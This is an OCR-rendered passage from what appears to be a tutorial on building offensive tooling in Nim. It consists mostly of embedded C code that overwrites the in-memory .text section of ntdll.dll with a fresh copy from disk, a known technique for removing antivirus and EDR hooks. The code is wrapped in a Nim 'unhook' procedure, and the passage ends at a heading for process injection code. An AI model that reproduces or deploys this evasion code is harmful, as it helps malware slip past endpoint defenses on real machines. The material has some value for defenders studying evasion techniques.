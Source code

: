     int test()
    {
        HANDLE process = GetCurrentProcess();
        MODULEINFO mi = {};
        HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
        
        GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
        LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
        HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
        HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
        LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
    
        PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
        PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);
    
        for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
            PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
            
            if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
                DWORD oldProtection = 0;
                bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
                memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
                isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
            }
        }
            
        CloseHandle(process);
        CloseHandle(ntdllFile);
        CloseHandle(ntdllMapping);
        FreeLibrary(ntdllModule);
        
        return 1;
    }
    """.}
    proc unhook(): int
        {.importcpp: "test", nodecl.}
        
    ### begin process injection code
        
        
        
    ### end process injection code



<p>&nbsp;</p>
=======================================================

## Section 4:  Process Injection Code in Nim
